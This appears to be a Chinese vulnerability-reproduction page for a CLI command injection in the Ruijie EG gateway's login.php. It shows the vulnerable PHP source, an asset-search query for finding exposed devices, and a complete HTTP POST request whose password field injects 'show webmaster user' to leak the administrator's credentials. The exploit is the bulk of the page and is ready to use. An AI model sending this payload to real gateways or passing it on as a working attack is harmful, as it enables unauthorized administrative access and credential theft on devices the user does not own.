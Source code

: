 # 锐捷 EG易网关 login.php 管理员账号密码泄露漏洞

## 漏洞描述

锐捷EG易网关 login.php存在 CLI命令注入，导致管理员账号密码泄露漏洞

## 漏洞影响

<a-checkbox checked>锐捷EG易网关</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="Ruijie-EG易网关"</a-checkbox></br>

## 漏洞复现

登录页面如下



![img](../../../.vuepress/public/img/ruijie-25.png)



漏洞文件 login.php



```php
<?php

/**
 * 用户登录处理
 */
define('IN', true);     //定位该文件是入口文件
define('DS', DIRECTORY_SEPARATOR);
define('AROOT', dirname(__FILE__) . DS);

class defaultController {

    function __construct() {
        
    }

    /**
     * 登录处理
     */
    public function indexAction() {
$username = p("username");$password = p("password");$data = [];
$reg='/(\r|\n)+/';
if (count(preg_split($reg, $username)) > 1 || count(preg_split($reg, $password)) > 1) {
$data["status"] = 6;
$data["msg"] = "username or password can't exist '\r\n'";
json_echo($data);
exit();
}
        if ($username == FALSE || $password == FALSE) {
            $data["status"] = 5;
            $data["msg"] = "username or password can't empty";
            json_echo($data);
            exit();
        }
        $res = execCli("exec", "webmaster $username $password");
        if ($res["status"] != 1) {
            json_echo($res);
            exit();
        }
        $isSuccess = trim($res["data"]);
        if ($isSuccess == 0) {    //用户名、账号验证成功
            session_start();
            $_SESSION['username'] = $username;  //记录用户名
            $_SESSION["lasttime"] = time();    //记录登录时间
            $config = @file_get_contents(DS . "data" . DS . "web.config");    //获取web配置信息
            if ($config != false) {
                $config = unserialize($config);
                $_SESSION["timeout"] = isset($config["loginTimeout"]) ? $config["loginTimeout"] * 60 : c("timeout");
            } else {
                $_SESSION["timeout"] = c("timeout");
            }
            setcookie("user", $_SESSION['username']);
        }
        $res["data"] = $isSuccess;
        json_echo($res);
    }

    /**
     * 获取设备信息
     */
    function versionAction() {
        $info = $version = execCli("exec", "show version detail", "");
        $info["data"] = preg_split("/\r*\n/", $info["data"]);
        json_echo($info);
    }

}

include_once(AROOT . "init.php");    //mvc初始化入口，放在底部
```



关键代码部分



```plain
if ($username == FALSE || $password == FALSE) {
            $data["status"] = 5;
            $data["msg"] = "username or password can't empty";
            json_echo($data);
            exit();
        }
        $res = execCli("exec", "webmaster $username $password");
        if ($res["status"] != 1) {
            json_echo($res);
            exit();
        }
        $isSuccess = trim($res["data"]);
```



发送请求包，拼接 CLI指令 `show webmaster user`



```plain
POST /login.php HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 49
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Accept-Encoding: gzip

username=admin&password=admin?show+webmaster+user
```



![img](../../../.vuepress/public/img/ruijie-26.png)



成功获取账号密码

